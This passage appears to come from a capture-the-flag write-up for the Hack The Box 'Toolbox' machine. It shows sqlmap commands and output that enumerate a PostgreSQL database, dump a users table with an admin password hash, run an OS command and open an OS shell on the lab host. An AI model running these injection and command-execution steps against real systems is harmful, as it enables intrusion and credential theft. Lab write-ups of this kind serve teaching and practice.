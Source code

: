 ```
# python sqlmap.py -r /home/ringbuffer/Downloads/Toolbox.htb/req --force-ssl --batch -D public --tables
[23:51:59] [INFO] retrieved: 'users'
Database: public
[1 table]
+-------+
| users |
+-------+

```

###### `Dumping Table Contents`

```
# python sqlmap.py -r /home/ringbuffer/Downloads/Toolbox.htb/req --force-ssl --batch -D public -T users --dump
[23:52:27] [WARNING] no clear password(s) found                                                                                                                        
Database: public
Table: users
[1 entry]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 4a100a85cb5ca3616dcf137918550815 | admin    |
+----------------------------------+----------+

```

###### `Executing OS commands through SQLMAP`
```
─# python sqlmap.py -r /home/ringbuffer/Downloads/Toolbox.htb/req --force-ssl --batch --os-cmd id 
[23:53:19] [INFO] retrieved: 'uid=102(postgres) gid=104(postgres) groups=104(postgres),102(ssl-cert)'

command standard output: 'uid=102(postgres) gid=104(postgres) groups=104(postgres),102(ssl-cert)'

[23:53:20] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/admin.megalogistic.com'
```

###### `Grabbing Reverse Shell through SQLMAP`
```
# python sqlmap.py -r /home/ringbuffer/Downloads/Toolbox.htb/req --force-ssl --batch --os-shell
[23:53:28] [INFO] testing if current user is DBA
[23:53:28] [INFO] retrieved: '1'
[23:53:29] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[23:53:29] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell>
os-shell>
os-shell>
```

